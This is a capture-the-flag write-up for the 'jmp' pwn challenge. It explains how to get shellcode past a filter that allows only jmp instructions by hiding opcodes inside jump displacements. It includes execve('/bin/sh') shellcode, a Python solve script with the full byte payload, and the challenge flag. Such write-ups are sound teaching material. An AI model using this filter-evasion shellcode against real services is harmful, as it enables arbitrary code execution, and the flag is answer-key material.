



# jmp

## Challenge

`Author`: **godsword**

**Description**

> jmp jmp jmp

**Files**

- [out_patched](./files/out_patched)
- [libc.so.6](./files/libc.so.6)
- [ld.so.2](./files/ld.so.2)
- [libcapstone.so.5](./files/libcapstone.so.5)

## Writeup

### Reverse Engineering

We are provided with the binary `out_patched`, no source code so let's decompile with ida (or ghidra whatever).

> Note: You need to put the executable and the libraries in the same directory since it's already patched.

There are two things to notice, it's quite simple  
Main  

Basically, it is mapping a region and reading user input into it and then after passing it to a check function it changes the permissions of the segment to RW and finally it calls our input which obviously should be a shellcode.  
Now for the check function

So, this functions desassembles our shellcode and just makes sure that every instruction is a `jmp`.

### Exploitation

What we need to do is pretty straitghforward: write a shellcode with only `jmp` instruction.  
wait what ???


That was my reaction at the beginning, I thought of trying to find some absurd combination of rop gadgets but I quickly realized I was stupid since `PIE` is enabled



So, after some time of questionning my life choices I realized that since jmp uses relative offsets, the actual solution came to mind.  
We just need to use the offset themselves as instructions, so we just would need to use one jmp in order to jump in the middle of the next jmp instruction, in this case, the offset will be considerd as opcodes.  
example:

- Opcode for `pop rax` is `0x58`
- Opcode for `short jmp` (1 byte offset) is `0xeb`
- it means that if we have this code snippet:

```asm
jmp 0x1    // \xeb\x01
jmp 0x0x58 // \xeb\x01
```

So basically in this case, with dynamic analysis we will be getting

```asm
jmp 0x1 // \xeb\x01
pop rax // \x58
```

And using this principle we just need to write this shellcode:

```asm
mov rsi, rsp
add rsi, 0x50
xor rdi, rdi
xor rax, rax
push 0x8
pop rdx
syscall ; read(fd=0,buf=rsi,count=0x8) we are gonna send /bin/sh

mov rdi, rsi
push 0x3b
pop rax
push 0
push 0
pop rsi
pop rdx
syscall ; execve(pathname=rsi,argv=NULL,envp=NULL)
```

so at the end, we will get this final payload

```py
def main():
    global io
    io = conn()
    shellcode=b"\xeb\x02" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x48\x89\xe6"# mov rsi, rsp
    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x48\x83\xc6\x50" # add rsi, 0x50

    shellcode+=b"\xeb\x02" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x48\x31\xFF" # xor rdi, rdi
    shellcode+=b"\xeb\x02" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x48\x31\xc0" # xor rax, rax
    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x6a\x08" #push 0x8 to stack
    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xeb\x5a" #pop rdx

    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x0f\x05" # syscall

    shellcode+=b"\xeb\x02" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x48\x89\xf7" # mov rdi, rsi

    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x6a\x3b" #push 0x3b to stack
    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xeb\x58" #pop rax
    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x6a\x00" #push 0 to stack
    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x6a\x00" #push 0 to stack

    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xeb\x5e" #pop rsi

    shellcode+=b"\xeb\x01" #jmp into displacement of next instruction
    shellcode+=b"\xeb\x5a" #pop rdx

    shellcode+=b"\xeb\x03" #jmp into displacement of next instruction
    shellcode+=b"\xe9\x00\x00\x0f\x05" # syscall

    # shellcode+=b"\xeb\x00"# infinite loop
    # shellcode+=b"\xeb\xfe"# infinite loop

    sleep(0.1)
    io.send(shellcode)

    sleep(0.1)

    io.send(b"/bin/sh\x00")
    sleep(0.1)

    io.interactive()

```

Solve script [here](./solve/solve.py)

> Note: we are also using near jmp (4 bytes offset) with opcode `0xe9` in order to have more flexibility in the shellcode

## Flag

`ingehack{the_junkiest_solve_script_award_goes_to}`
